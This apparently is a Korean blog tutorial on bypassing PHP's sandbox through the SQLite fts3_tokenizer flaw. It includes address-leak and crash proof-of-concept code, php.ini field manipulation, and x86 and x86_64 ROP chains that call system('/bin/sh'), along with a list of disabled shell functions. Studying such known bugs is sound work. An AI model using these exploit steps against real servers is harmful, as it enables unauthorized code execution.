

# Web Application : PHP

- php를 활용한 rce는 다음 설명에서 간단하게 진행했고 밑의 링크를 통해 읽으시면 되요.

[Web Application RCE Case](https://dnsdudrla97.github.io/web_application_rce1/)

# PHP Security 1

- 다음은 PHP 보안 기법중 `Sandbox` 에 대하여 설명을 진행할께요.😛

## PHP Sandbox

<aside>
💡 SandBox 가 뭘까?
> 애플리케이션 환경에서 대상 리눅스 명령어를 사용할 수 있는 권한이 있더라고 대상 애플리케이션이 설정한 권한 이외의 행동을 수행할 수 없게 한다.

</aside>

**Disable Function**

- 애플리케이션 설정된 PHP 함수에 대해 액세스를 제한하는 기능
- 공격할 수 있는 구간이 존재하여 `명령 실행(system, proc_open, shell_exec)`, `소켓(socket)` , `통신(curl)` 해당 함수들을 이용하는 경우 `Disable Function으로 작성할 시 공격이 어렵다.`

<aside>
💡 Sandbox 개념에서 시스템 함수들이 비활성화되어 있지만 우회하면 되겠죠?

</aside>

```markdown
## Disable Function Example
- exec
- passthru
- shell_exec
- system
- proc_open
- popen
- curl_exec
- curl_multi_exec
- parse_ini_file
- show_source
```

**Safe_Mode**

- `chroot` 가 설정된 `/var/www/html` 디렉토리 가 웹 루트로 설정되어 쉘 명령(`/bin/ls, /bin/id`) 을 사용할 수 없게 된다.
- uid, gid가 다른 경우 접근할 수 없다.
    - `/etc/passwd` 와 같은 파일의 경우 `safe_mode` 의 특정 옵션이 켜지면 접근할 수 없다.
- `safe_mode` 가 걸린 PHP 에서 시스템 명령을 사용하는 경우 예외 처리되는 모습을 확인할 수 있다.

```markdown
cat /etc/php.ini | grep safe_mode
```

- `/etc` 밑에 php.ini 설정 파일로 safe_mode on/off 로 설정이 가능하다.

**Safe_Mode Bypass**

- 간단하게 `safe_mode` 에 대해서 설명을 했는데 이를 우회하기 위해서는 몇가지 방안이 있다.
    - Safe_Mode 취약한 함수를 사용해서 Exploit를 진행 (curl, socket, ...)
- PHP 에서 사용하는 모듈 취약점을 이용해서 Exploit을 진행
    - Mode cgi, PHP-FPM
- PHP 에는 많은 CVE가 존재
    - 모듈 취약점을 사용할시 PHP 버전에 의존하지 않아도 된다.
    - PHP 버전과 관계 없는 해당 모듈을 사용하는 하위 버전이 전부 작동한다.


# PHP RCE 1-day case

- 취약한 대상 애플리케이션 환경에서 PHP를 사용하고 있으며 이에 대한 공격 벡터가 존재하는 경우 PHP sandbox를 우회하기 위해 SQLite 모듈을 활용하고, 최종적으로 RCE를 수행하는 과정에 대해서 설명하도록 하겠습니다.

### PHP Debugging

- 취약한 모듈을 분석하기 위해 php+apache 디버깅을 활용하여 동적 분석을 진행한다.

**gdb를 활용하여 process debugging 진행**

- 대상 PID를 gdb로 연결하기 위해 `getmypid` 출력을 한후 sleep 함수를 사용해 유효 상태로 대기시키는 동안 연결을 진행하도록 합니다.

```php
<?php
	echo getmypid();
	sleep(10);
?>
```

- 구현된 코드를 실행한 후 출력된 PID 를 gdb에 연결을 진행한다.

```php
[root@localhost html]# curl http://localhost/dbg.php
1876
```

- `p` 옵션을 활용하여 PID 번호 매칭하여 디버깅을 진행합니다.

```php
gdb -p [pid]
```

- 구현된 환경에서 gdb를 활용하여 프로세스 디버깅 상태가 완료된 것을 확인할 수 있다.


- 해당 Process 매핑된 라이브러리 주소를 확인하여 오프셋 계산을 통해 ROP 기법을 수행할 수 있다.


- 여기까지 간단하게 gdb를 사용해 동적 프로세스 디버깅을 진행하였다. 다음은 실제 취약한 sqlite3 모듈을 분석하여 `Code Execution`이 가능한 부분을 exploitation 하도록 할께요

### Safe Mode Bypass

- PHP가 사용하는 모듈에 대한 취약점을 활용하여 Code Execution 을 진행해 System 함수를 실행하는 게 목표
- `Code Execution` 을 수행하는데 있어서 Use-After-Free, Buffer-OverFlow 등 많은 CVE들이 존재하며 다음 `CVE-2015-0273`, `CVE-2015-6834` 등이 있습니다.

[CVE-2015-0273](https://www.cve.org/CVERecord?id=CVE-2015-0273)

[CVE-2015-6834](https://www.cve.org/CVERecord?id=CVE-2015-6834)

- PHP 모듈에 존재하는 취약점을 이용하여 PHP 버전에 의존하지 않고 Exploitation을 진행할 수 있습니다.

### PHP SQLite 모듈 (PHP 5.3≥)

- 이번에는 SQLite 모듈에 대한 취약점 분석을 진행하도록 하겠습니다.


- 취약한 PHP 모듈의 SQLite3 버전은 3.6.20에 해당하며 이는 PHP 5.3 이상 부터 사용가능합니다.

# SQLite3 fts3_tokenizer 취약점

### fts3_tokenizer Overview

- sqlite3에서 fts3_tokenizer를 통한 검색을 위해 사용자 정의 `tokenizer` 를 등록할 수 있는 함수가 있습니다.
- fts3, 4 확장 모듈을 통해 사용자는 데이터베이스에 등록된 특수 테이블인 fts 테이블을 생성할 수 있습니다.
- 데이터베이스내의 테이블에 대용량 문서가 많이 포함된 경우에도 하나 이상의 `token` 이 포함된 모든 행에 대해 데이터베이스를 효과적으로 쿼리 수행할 수 있습니다.

<aside>
💡 SQLite FTS3,4 Document
> [https://www.sqlite.org/fts3.html](https://www.sqlite.org/fts3.html)

</aside>

### SQLite fts3 기능을 활용한 검색 방안

- SQLite3 쿼리 수행시 Virtual Index Table을 생성하고 요소들을 추가하면서 인덱스를 생성합니다.
- 생성된 인덱스(Token)를 `MATCH` 쿼리로 키워드를 검색합니다.
- SQLite는 Simple Tokenizer를 사용합니다.

### 사용자가 지정할 수 있는 tokenizer의 Callback 처리 방식

- `xCreate` : Initialization
- `xDestory` : destruction
- `xOpen` : create a new tokenize cursor from a user input
- `xClose` : close the cursor
- `xNext` : yield next word

- callback function pointer 는 `sqlite3_tokenizer_module` 구조체에 등록되어 있습니다.

```php
struct sqlite3_tokenizer_module {
 int iVersion;
 int (*xCreate) (int argc, const char * const *argv, sqlite3_tokenizer **ppTokenizer);
 int (*xDestroy) (sqlite3_tokenizer *pTokenizer);
 int (*xOpen) (sqlite3_tokenizer *pTokenizer, const char *pInput, int nBytes, sqlite3_tokenizer_cursor **ppCursor);
 int (*xClose) (sqlite3_tokenizer_cursor *pCursor);
 int (*xNext) (sqlite3_tokenizer_cursor *pCursor, const char **ppToken, int *pnBytes, int *piStartOffset, int *piEndOffset, int *piPosition);
};
```

## SQLite fts3 취약점

### fts3 module base address leaked

- sqlite3 에는 `simple`, `porter`, `unicode64` ... 과 같은 몇 가지의 build-in tokenizer가 있습니다.

```php
select hex(fts3_tokenizer('simple'));
							↑
					16 진수 문자열 반환 (빅 엔디안 주소)
```


- `fts_tokenizer` 는 등록된 tokenizer의 주소를 `BLOB` 인코딩되어 반환하게 되고 built-in-tokenizer를 Query 하게 되면 lib-sqlite3 라이브러리 메모리 영역의 주소가 노출됩니다.
- 해당 주소를 기반으로 ASAR을 우회하기 위해 리틀 엔디안으로 변환 작업을 진행합시다.

```php
<?php
function flip($val) {
  $len = strlen($val);
  $result = '';
  for ($i = $len; $i > 2; $i-=2) {
    $result .= substr($val, $i - 2, 2);
  }
  $result .= substr($val, 0, $i);
  $result .= str_repeat('0', 16 - $len);
  return $result;
}

$db = new SQLite3(":memory:");
$row = $db->query("select hex(fts3_tokenizer('simple')) addr;")->fetchArray();
$leaked_addr = $row['addr'];
echo flip($leaked_addr);
$db->close();
?>
```

- 취약한 부분의 쿼리를 PHP 코드로 작성하여 쿼리를 수행하여 메모리 릭을 진행합시다.


- 그렇다면, 해당 부분은 왜 메모리 릭이 가능하지 살펴봅시다.

```php
/* Load the built-in tokenizers into the hash table */
  if( rc==SQLITE_OK ){
    if( sqlite3Fts3HashInsert(pHash, "simple", 7, (void *)pSimple)
     || sqlite3Fts3HashInsert(pHash, "porter", 7, (void *)pPorter) 
     || (pIcu && sqlite3Fts3HashInsert(pHash, "icu", 4, (void *)pIcu))
    ){
      rc = SQLITE_NOMEM;
    }
  }

static const sqlite3_tokenizer_module simpleTokenizerModule = {
 0,
 simpleCreate,
 simpleDestroy,
 simpleOpen,
 simpleClose,
 simpleNext,
};
```

- `built-in tokenizer` 는 hash-table에 로드되며 해당 주소는 libsqlite3 의 .bss 섹션을 참조되고 있습니다.

### SQLite fts3_tokenizer(), fts3_tokenizer()

```php
SELECT fts3_tokenizer(<tokenizer-name>);
SELECT fts3_tokenizer(<tokenizer-name>, <sqlite3_tokenizer_module ptr>);
```

- 하나의 인수, 두 개의 인수로 fts3_tokenizer 함수를 호출할 수 있습니다. 첫 번째 인자는 해당 함수에서 `tokenizer`를 식별하는 문자열이며 `slqite3_tokenizer_module` 구조체에 대한 포인터입니다.
- 즉, 하나의 인수가 전달되면 현재 등록된 tokenizer 구현에 대한 포인터가 반환되고 두 번째 인수는 tokenizer를 등록할 사본이 반환되어 집니다.

## fts3 callback을 통한 임의의 코드 실행 취약점

- 앞서 취약한 부분의 쿼리인 `fts3_tokenizer` 두 번째 인자에 임의의 값을 입력한 경우 크래쉬가 발생한 것을 확인할 수 있습니다.

```php
<?php
ob_start();
echo getmypid();
echo str_repeat(" ", 0x1212);
ob_end_flush();
flush();

sleep(10);

function flip($val) {
  $len = strlen($val);
  $result = '';
  for ($i = $len; $i > 2; $i-=2) {
    $result .= substr($val, $i - 2, 2);
  }
  $result .= substr($val, 0, $i);
  $result .= str_repeat('0', 16 - $len);
  return $result;
}

$db = new SQLite3(":memory:");
$row = $db->query("select hex(fts3_tokenizer('simple')) addr;")->fetchArray();
$leaked_addr = $row['addr'];
echo "\n";
echo flip($leaked_addr);
echo "\n";
$db->close();

sleep(10);

$db = new SQLite3(":memory:");
$db->exec("select fts3_tokenizer('simple', x'4141414141414141');
        create virtual table a using fts3(tokenizer=simple);");

?>

```

- 크래쉬가 발생한 부분을 분석해보면 `rbp` 레지스터 값이 `fts3_tokenizer` 두 번째 파라미터인 것을 확인할 수 있습니다.


- SQLite3가 `xCreate` callback function pointer를 호출하였고 이에 대한 Callback 호출에 대한 임계값 검증이 존재하지 않았기 때문에 발생하였습니다.

```c
// https://github.com/mackyle/sqlite/blob/0ab6f6f4c9142a55959ed2097734942c1781b538/ext/fts3/fts3_tokenizer.c
m = (sqlite3_tokenizer_module *)sqlite3Fts3HashFind(pHash,z,(int)strlen(z)+1);
  if( !m ){
    sqlite3Fts3ErrMsg(pzErr, "unknown tokenizer: %s", z);
    rc = SQLITE_ERROR;
  }else{
	.......
    }
    rc = m->xCreate(iArg, aArg, ppTok);
    assert( rc!=SQLITE_OK || *ppTok );
    if( rc!=SQLITE_OK ){
      sqlite3Fts3ErrMsg(pzErr, "unknown tokenizer");
    }else{
      (*ppTok)->pModule = m; 
    }
    sqlite3_free((void *)aArg);
  }
```

## xOpen 취약점

```sql
insert into exploit values(x"9090909090909090");
```

- 현 쿼리의 “exploit” 테이블은 앞에서 create 쿼리문으로 생성이 된후 insert 쿼리문을 이용해서 데이터를 삽입할 경우 `xOpen` Callback function pointer가 수행됩니다.
- `xOpen` 은 값 으로 0x9090909090909090 16진수를 `pInput1` 매개 변수로 사용하여 CallBack 과 같이 트리거 됩니다.

```c
// https://github.com/mackyle/sqlite/blob/0ab6f6f4c9142a55959ed2097734942c1781b538/ext/fts3/fts3_expr.c
sqlite3_tokenizer_module const *pModule = pTokenizer->pModule;
sqlite3_tokenizer_cursor *pCsr = 0;
int rc;
rc = pModule->xOpen(pTokenizer, z, n, &pCsr);
```

- 이를 이용해서 예측이 가능한 메모리 위치에 대상 주소를 만들고 메모리 주소에 있어 `fts3_tokenizer` 의 Callback 을 트리거하여 다음 프로그램 카운터를 조작해 원하는 파라미터 값을 컨트롤해 공격 연계가 가능합니다.

# fts3 PHP RCE Exploitation

## Exploit 공격 흐름도

```sql
$sqlite3_lib_leaked_tokenizer = sqlQuery("select hex(fts3_tokenizer('simple')) addr")['addr'];
$libsqlite3_addr = flip($sqlite3_lib_leaked_tokenizer);
$libsqlite3_base = $libsqlite3_addr - $leaked_simple_tokenizer_offset;

$payload = 0x9090909090909090; // payload 
sqlQuery("select fts3_tokenizer('simple', ?);", $payload);
sqlQuery("create table a using fts3"); // crash
```

- 다음과 같은 형태로 취약점 Exploit 흐름이 진행되어 집니다.
- x86 환경에서의 취약점은 `xCreate` 의 Callback 트리거 만으로 Exploit 진행이 어렵다고 판단하여 `xOpen` 의 인자 트리거를 통해 진행하였습니다.

## x86bit 환경 PHP with SQLite3 fts3 tokenizer RCE 취약점

### fts3_tokenizer info leak

- leak 된 simple tokenizer의 주소 값을 리틀 엔디안으로 변경 작업을 진행시 4바이트 기준으로 fllip을 진행합니다.

```php
function flip($val)
{

  $len = strlen($val);
  if (8 - $len) {
    $val = str_repeat('0', 8 - $len).$val;
  }

  $result = '';
  for ($i = 8; $i > 2; $i -= 2) {
    $result.= substr($val, $i - 2, 2);
  }
  $result.= substr($val, 0, $i);
  return $result;
}

$db = new SQLite3(":memory:");
$row = $db->query("select hex(fts3_tokenizer('simple')) addr;")->fetchArray();
$leaked_addr = $row['addr'];
$db->close();

$addr = hexdec(flip($leaked_addr));
```

### fts3 tokenizer callback

- 2번째 인자인 callback 주소를 컨트롤 하여 임의의 값으로 덮여 씌어진 것을 확인 할 수 있습니다.
- `edi` 레지스터를 조작해 원하는 방향을 이동이 가능한 것을 확인할 수 있습니다.


- 하지만 해당 레지스터를 활용해서 Stack Pivot를 하기에는 어려움이 있기 때문에 `xOpen` 의 pInput을 트리거하는 방식으로 조작해보겠습니다.

```c
int (*xOpen) (sqlite3_tokenizer *pTokenizer,
	const char *pInput,
	int nBytes,
	sqlite3_tokenizer_cursor **ppCursor
);
```

- 만약 xCreate 를 모두 제어하기 위해서는 xOpen을 제어할 수 있는 연속적인 메모리 데이터 3개 이상이 필요합니다.
- 이를 위해서 `PHP.ini` list의 값을 설정합니다.

**PHP.ini (Structure _php_ps_globals)** 

- Expand PHP Module의 코드를 보면 해당 ini 구조체가 정의되어 있으며 이러한 자료구조는 프로세스 상에서 전역적으로 존재하고 `.bss` 섹션에 포함되어 있기 때문에 위치를 알 수 있으며 공격하는데 있어서 좋은 벡터입니다.

```c
// https://www.php.net/manual/en/ini.list.php

typedef struct _php_ps_globals {
	char *save_path;
	char *session_name;
	char *id;
	char *extern_referer_chk;
	char *entropy_file;
	char *cache_limiter;
	long entropy_length;
	long cookie_lifetime;
	char *cookie_path;
	char *cookie_domain;
	zend_bool  cookie_secure;
	zend_bool  cookie_httponly;
	ps_module *mod;
	ps_module *default_mod;
	void *mod_data;
	php_session_status session_status;
	long gc_probability;
	long gc_divisor;
	long gc_maxlifetime;
	int module_number;
	long cache_expire;
```

- 앞서 구조체에서 활용하는 필드는 빨간색으로 주석 처리한 부분을 사용할 예정이며, 포인터 구조와 정수 형태를 트리거할 수 있는 필드를 선정하여 가젯들이 적용할 수 있는 범위를 늘렸습니다.
- php.ini 항목을 조작하여 fts3 tokenizer 모듈 구조체를 조작할 수 있습니다.

### fts3 tokenizer 두 번째 인자 ebp 레지스터 조작

- 두 번쨰 인자 ebp 레지스터를 다양한 메모리 범위로 조작이 가능하기 때문에 php.ini 의 `ps_globals` 의 구조체를 사용하기 위해 `gc_probability` 필드의 주소를 지정하였고 해당 위치로 이동하기 에 있어 `-0x4` 바이트 연산을 해서 호출원에서 계산 된 오프셋을 조작하였습니다.


- ps_globals의 `gc_probability`, `gc_divisor`, `gc_maxlifetime` 해당 필드는 셋 전부 long 타입을 갖는 필드 입니다.
- `xOpen` 을 트리거하기 위해서는 정상적으로 `xCreate` 가 동작한 후에 `insert query` 가 실행되어야 합니다. 그렇기 때문에 fts3 table `simple` 의 `simple_create` 해시 테이블 주소를 콜백으로 변경하여 `xOepn` 함수로 갈 경로를 만들어 봅시다.


- 현재 환경에서 `0xe3bbc0` 의 주소는 `simpleCreate` 객체를 가리키고 다음 `0x7fffffff` 두 값들은 임의로 집어넣은 값입니다.


- php의 `ini_set` 메서드를 이용해서 각 전역 필드에 값을 넣어 줍니다.
- 앞서 xOpen 을 활용하기 위해 세 개의 메모리 대역이 필요하다고 했는데 이를 `ps_globals` 필드를 활용하였습니다.
- 필드의 값이 어디 부분에서 터지는지를 확인하기 위해 임의의 데이터를 넣은 결과 `eip` 레지스터를 조작할 수 있습니다.


- 해당 함수가 호출하는 호출 구간은 `call [edx+0xc]` 형태로 `edx` 레지스터를 기준으로 call이 되어지고 `eax` 레지스터에는 xOpen의 `insert in to query`의 value 값이 포함된 것을 확인할 수 있습니다.

### Stack Pivot를 이용한 Payload data 메모리 위치 변경 작업

- 앞서 취약점을 활용하여 프로그램 카운터를 조작이 가능한 상태입니다.
- 원하는 메모리 번지의 대역을 eax 레지스터가 참조하고 있는 구조


- `insert into a value` 값으로 ROP를 수행할 수 있는 영역으로 만들기 위해 `XCHG` 가젯을 이용하여 eax 레지스터와 esp 레지스터를 체인하여 현재 프로그램 카운터가 생성된 페이로드 데이터의 메모리 대역으로 이동하도록 변경하였습니다.

```wasm
xchg esp, eax;
ret;
```



### ROP 기법을 활용하여 RCE 취약점 수행

- 앞서 취약점 활용하여 원하는 가젯들을 체인할 수 있는 벡터를 마련하였습니다.
- 중요한 사실은 RCE를 발생하기 위해서 “/bin/sh” 명령을 내리기 위해 문자열이 있는 메모리 공간이 있어야 합니다.
- 읽기/쓰기 가 가능한 메모리 영역으로 문자열을 쓰기 위해 하드 코딩으로 문자열을 4바이트씩 끊어 가면서 메모리 상에 쓰고 마지막에 널 바이트를 추가합니다.
- 시스템 라이브러리 함수를 호출할 때 해당 문자열의 포인터 주소를 불러와서 호출을 진행합니다.

```wasm
## command move step (0~5 repeat)
pop eax ; ret               --------> libsqlite3_gadget(0x00305337) -> offset(0x82337)  -> server(0xe9c337)
;command(4)                 --------> CMD
pop edx ; ret               --------> libsqlite3_gadget(0x00305e09) -> offset(0x82e09)  -> server(0xe9ce09)
;writable memory            --------> libsqlite3+(0x8eaa0-0x18)                         -> server(0xea8a88, 0xea8a8c, 0xea8a90, 0xea8a94, 0xea8a98,0xea8a9c, 0xea8aa0)
mov [edx+0x18], eax ; ret   --------> libc-2_gadget(0x004e3642)     -> offset(0x2a642)  -> server(0xa0d642)

## call system
pop eax ; ret               --------> libsqlite3_gadget(0x00305337) -> offset(0x82337)     -> server(0xe9c337)
;lib_system                 --------> libc-2+0x3af60                                       -> server(0xa1df60)
pop esi ; ret               --------> libphp5_gadget(0x000d5902)    -> offset(0x000d5902)  -> server(0xb71a8902)
;writable memory            --------> libsqlite3+0x8eaa0                                   -> server(0xea8aa0)
push esi ; call eax;        --------> libphp5_gadget(0x0029eb07)    -> offset(0x0029eb07)  -> server(0xb7371b07)
```

- 해당 가젯들은 노출된 메모리 주소에서 offset 계산을 통해 가젯을 선정한 후 쓰기 가 가능한 공간으로 `libcsqlite3` .bss 섹션을 활용합니다.


- `edx` 레지스터에 대입된 `sqlite3SavedPrng` 주소 +0x18 번지로 역참조된 값에 하드 코딩된 값을 집어넣었습니다.


- 가젯 들이 동작을 하면서 마지막으로 시스템 라이브러를 호출하여 Code Execution을 수행합니다.

# x86_64bit 환경 PHP SQLite3 fts3 tokenizer RCE 취약점

- 앞서 x86 환경에서의 공통된 취약점을 이용하며 새로운 가젯을 사용해 xCreate의 콜백 함수를 조절해서 원하는 페이로드를 실행하여 RCE를 수행해봅시다.

### ROP를 활용해서 시스템 라이브러리 함수 호출 진행

- 64bit 환경은 32bit 환경과 다르게 레지스터를 활용해서 인자를 주고 받기 때문에 ROP 구조를 새로 구성합니다.
- `[libphp5.so](http://libphp5.so)` 공유 라이브러리 안에 실행 권한이 있는 부분의 가젯들을 이용해서 ROP Chain을 설계 해봅시다.

```php
leave;                     -------->        stack pivot
ret;                       -------->        payload->esp

pop rax;                   -------->        rax <- system_lib
pop rbx;                   -------->        rbx <- wirtable memory(Cookie_path)
ret;

mov rdi, [rbx];            -------->        rdi <- [rbx] address(writalbe memory)
call rax;
```


- Stack Pivot 가젯을 이용해서 `ps_globals` 구조체의 주소 값을 스택 메모리 상으로 변경하여 ps_globals에 저장되어 있는 필드들을 확인할 수 가 있습니다.


- 시스템 라이브러리 함수를 호출하기 위해서 스택상에 있는 시스템 라이브러리를 rax 레지스터가 가리키는 형태로 진행 하였습니다.
- 후, rbx 레지스터를 이용해서 Cookie_path 필드에 삽입한 문자열을 가리키는 주소를 대입합니다.


- `ps_globals` cookie_path 필드는 삽입한 페이로드를 가리키는 포인터이기 때문에 rbx 레지스터에 대입을 한 후 참조하는 과정이 필요합니다.

```php
0x7ff9d4cefbc0 <ps_globals+64>:  => 0x00007ff9d8b15908

0x00007ff9d8b15908 =>  "/bin/sh"
```


- rbx 레지스터를 참조한 값을 호출 규약에 맞게 rdi 레지스터에 mov 명령을 통해 대입한 후 code execution을 실행합니다.

# 참조

---

[us 19 Qian Exploring The New World Remote Exploitation Of SQLite And Curl wp](https://i.blackhat.com/USA-19/Thursday/us-19-Qian-Exploring-The-New-World-Remote-Exploitation-Of-SQLite-And-Curl-wp.pdf)

[us 17 Feng Many Birds One Stone Exploiting A Single SQLite Vulnerability Across Multiple Software](https://www.blackhat.com/docs/us-17/wednesday/us-17-Feng-Many-Birds-One-Stone-Exploiting-A-Single-SQLite-Vulnerability-Across-Multiple-Software.pdf)


```toc
```